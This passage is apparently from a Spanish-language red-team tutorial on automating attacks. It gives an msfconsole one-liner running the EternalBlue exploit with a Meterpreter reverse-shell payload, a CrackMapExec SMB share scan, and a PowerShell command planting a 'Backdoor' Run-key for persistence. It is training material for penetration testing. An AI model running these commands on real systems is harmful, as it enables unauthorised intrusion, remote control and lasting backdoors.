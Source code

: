 
## 10.4. Uso de Metasploit para Simular Ataques Automatizados

### 10.4.1. Automatización de Ataques con Metasploit

Metasploit puede ser automatizado para realizar ataques completos, desde la detección de vulnerabilidades hasta la explotación y escalación de privilegios.

#### Script en Metasploit para automatizar un ataque:

```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue;
set RHOST 192.168.1.10;
set PAYLOAD windows/x64/meterpreter/reverse_tcp;
set LHOST 192.168.1.5;
run"
```

Este script ejecuta un ataque de **EternalBlue** de manera automatizada.

---

## 10.5. Automatización de Movilidad Lateral y Persistencia

### 10.5.1. Movilidad Lateral con CrackMapExec

**CrackMapExec** es una herramienta poderosa para realizar movimientos laterales y post-explotación dentro de redes Windows. Permite automatizar acciones como la obtención de hashes de contraseñas, ejecuciones remotas de código y elevación de privilegios.

**Ejemplo de uso**:
```bash
crackmapexec smb 192.168.1.0/24 --shares
```

Este comando busca compartir archivos y recursos en una red de rango específico.

### 10.5.2. Automatización de Persistencia

El Red Team busca siempre obtener **persistencia** en los sistemas comprometidos. Utilizando **PowerShell**, podemos crear scripts para añadir entradas a tareas programadas de Windows y otros métodos de persistencia.

**Ejemplo de persistencia en Windows**:
```bash
powershell.exe -Command "New-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'Backdoor' -Value 'C:\backdoor.exe'"
```

---

## 10.6. Reportes Automatizados de Ataques
